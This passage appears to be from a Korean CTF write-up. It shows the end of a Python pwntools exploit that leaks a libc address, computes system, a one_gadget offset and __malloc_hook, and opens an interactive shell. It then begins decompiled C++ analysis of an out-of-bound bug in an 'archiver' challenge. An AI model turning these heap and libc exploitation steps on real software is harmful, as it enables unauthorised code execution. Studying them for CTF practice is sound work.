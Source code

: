   ```python
  
  con.send("/bin/sh\x00")
  con.recvuntil("Thank You :)\n")
  
  # 0x402340
  libcbase = u64(con.recv(8)[:-1].ljust(8, "\x00")) - libc.symbols["read"]
  system = libcbase + libc.symbols["system"]
  oneshot= libcbase + 0x4526a
  malloc_hook = libcbase + libc.symbols["__malloc_hook"]
  
  print "off: {:016x}".format(libc.symbols["read"])
  print "libc: {:016x}".format(libcbase)
  print "system: {:016x}".format(system)
  print "malloc_hook: {:016x}".format(malloc_hook)
  
  con.send(p64(oneshot))
  
  con.interactive()
  ```

  

## 4. archiver

- C++ binary, Out-of-bound

- 해당 바이너리를 분석하기 위해  vtable 구조체와 멤버변수 구조체를 선언을 한 다음, 함수들을 분석해보면 아래의 decompress함수가 보이게 된다.

  ```c++
  __int64 __fastcall Compress::decompress(Compress *compress)
  {
    unsigned __int8 v2; // [rsp+6Ch] [rbp-24h]
    unsigned __int8 v3; // [rsp+6Dh] [rbp-23h]
    char v4; // [rsp+6Eh] [rbp-22h]
    uint8_t v5; // [rsp+6Fh] [rbp-21h]
    unsigned __int64 v6; // [rsp+70h] [rbp-20h]
    __int64 magic; // [rsp+78h] [rbp-18h]
    Compress *v8; // [rsp+80h] [rbp-10h]
    char v9; // [rsp+8Fh] [rbp-1h]
  
    v8 = compress;
    magic = 0LL;
    v6 = 0LL;
    if ( compress->filemanager->vtable->read(compress->filemanager, (char *)&magic, 8LL) & 1 )
    {
      if ( magic == 0x393130322394D3C0LL )
      {
        if ( compress->filemanager->vtable->read(compress->filemanager, (char *)&v6, 8LL) & 1 )
        {
          if ( v6 & 7 )
          {
            v9 = 0;
          }
          else
          {
            while ( 2 )
            {
              if ( 8 * compress->field_1A0 >= v6 )
              {
                v9 = 1;
              }
              else
              {
                compress->filemanager->vtable->read(compress->filemanager, (char *)&v5, 1LL);
                v4 = v5 >> 6;
  ```